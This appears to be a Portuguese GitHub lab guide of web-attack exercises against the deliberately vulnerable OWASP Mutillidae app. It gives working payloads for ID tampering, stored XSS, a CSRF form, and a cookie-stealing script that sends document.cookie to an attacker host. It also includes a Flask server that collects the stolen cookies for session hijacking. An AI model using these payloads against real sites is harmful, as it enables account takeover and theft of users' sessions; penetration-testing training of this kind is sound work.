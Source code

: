 # Web-Attack
Web Application Attack


## Ataques em Aplicação Web 

Utilizaremos como referência o projeto OWASP Mutillidae: https://securityonline.info/owasp-mutillidae-ii-web-pen-test-practice/


### Exercício 1 - Abusando da aplicação com BurpSuite
* Abrir o mutillidae:	http://10.10.10.16:8080/mutillidae
* Criar um **usuário**
* Abrir o **BurpSuite** e capturar a requisição de login para identificar o **ID**
* A aplicação atribuiu o **ID 24** para o usuário

    ![](https://l2r1.com.br/llll/uid.PNG)

* Se alterarmos o **ID** para **1** 
   
   ![](https://l2r1.com.br/llll/uid2.PNG)

* É possível identificar que o usuário alterou para root

   ![](https://l2r1.com.br/llll/root.PNG)


| XSS         |
| ------------------ |
### Exercício 2 - XSS 
* Abrir o mutillidae: http://10.10.10.16:8080/mutillidae
* Realizar logon com o usuário criado.
* Acessar ****OWASP 2013 > A CSRF > Add to your blog****
* Inserir dados no blog:
    
    ```
    <script>alert(document.cookie)</script>
    ```

    ![](https://l2r1.com.br/llll/XSS.PNG)


| CSRF         |
| ------------------ |

### Exercício 3 - CSRF 
* Abrir o mutillidae: http://10.10.10.16:8080/mutillidae
* Acessar **OWASP 2013 > A CSRF > Add to your blog**
* Inserir dados no blog e capturar no BurpSuite

    ![](https://l2r1.com.br/llll/csrf0.PNG)

* Utilizaremos os parâmetros capturados no BurpSuite para nosso ataque CSRF e alteraremos o conteúdo.
    * csrf-token = NULL
	* blog_entry = "Blog Hackeado"
	* add-to-your-blog-php-submit-button = "Save Blog Entry"


* Criar um HTML com as seguintes informações
    
    **CSRF.html**
    ```
    <form name="csrf" action="https://192.168.56.101/mutillidae/index.php?page=add-to-your-blog.php" method="POST">
    <input type="hidden" name='csrf-token' value=''>
    <input type="hidden" name='blog_entry' value='Blog Hackeado'>
    <input type="hidden" name='add-to-your-blog-php-submit-button' value='Save Blog Entry'>
    </form>
    ```
* Uma vez que o usuário autenticado abre o arquivo html, o CSRF é executado.

    ![](https://l2r1.com.br/llll/csrf.PNG)


| COOKIE HIJACK      |
| ------------------ |

### Exercício 4 - Cookie Hijack 

* Realizaremos um XSS via CSRF e com Cookie Hijack

    
	Abrir um html encode (https://emn178.github.io/online-tools/html_encode.html) e inserir o seguinte abaixo (O objetivo é encodar nosso código para não quebrar o script):
	```
	<script>document.location="http://10.10.10.13:8080/?c="+document.cookie;</script>
    ```
	
* A informação encodada deverá ficar como descrito abaixo:
	```
	&lt;script&gt;document.location=&quot;http://10.10.10.13:8080/?c=&quot;+document.cookie;&lt;/script&gt;
    ```
    
* Alterar o HTML anterior inserindo os dados:
    ```
      <form name="csrf" action="https://192.168.56.101/mutillidae/index.php?page=add-to-your-blog.php" method="POST">
      <input type="hidden" name='csrf-token' value=''>
      <input type="hidden" name='blog_entry' value='&lt;script&gt;document.location=&quot;http://10.10.10.13:8080/?c=&quot;+document.cookie;&lt;/script&gt;'>
      <input type="hidden" name='add-to-your-blog-php-submit-button' value='Save Blog Entry'>
      </form>
	```
* Criar um Script python: 

    **get_cookie.py**

    ```
    from flask import Flask, request, redirect
    from  import 
    app = Flask(__name__)  	# cria instancia do app
    @app.route('/') 		
    def cookie():
          # Captura os cookie e salva no arquivo ”cookies.txt"
	    cookie = request.args.get('c')
	    f = open("cookies.txt","a")
	    f.write(cookie + ' ' + str(datetime.now()) + '\n')
	    f.close()
          # Redireciona o usuário para outra página
	    return redirect("http://pudim.com.br")
    if __name__ == "__main__":
	    app.run(host = '0.0.0.0', port=8080) 
    ```	
	
* Executar o script get_cookie.py
    ```
    python get_cookie.py
    ```
    ![](https://l2r1.com.br/llll/gc.PNG)

* Ao abrir o arquivo html na maquina da vítima, é possível identificar que o cookie foi capturado na maquina do atacante:

	![](https://l2r1.com.br/llll/gc2.PNG)

* A partir daí é possível se conectar como usuário apenas usando o cookie de sessão.

* Basta copiar o cookie da sessão: **v6qql07p4ee7re69p79t7fq8ru** e substituir na pagina do atacante
    
    ![](https://l2r1.com.br/llll/cookie.PNG)
    
* Ao realizar refresh na página você verá que o atacante conseguiu se logar na aplicação com o cookie do usuário 

    ![](https://l2r1.com.br/llll/hijack.PNG)
    
* Qualquer usuário autenticado que abrir a página do blog, terá seu cookie capturado.

    ![](https://l2r1.com.br/llll/gc3.PNG)
    
* O arquivo cookie.txt também contém as informações dos cookies.

    ![](https://l2r1.com.br/llll/gc4.PNG)

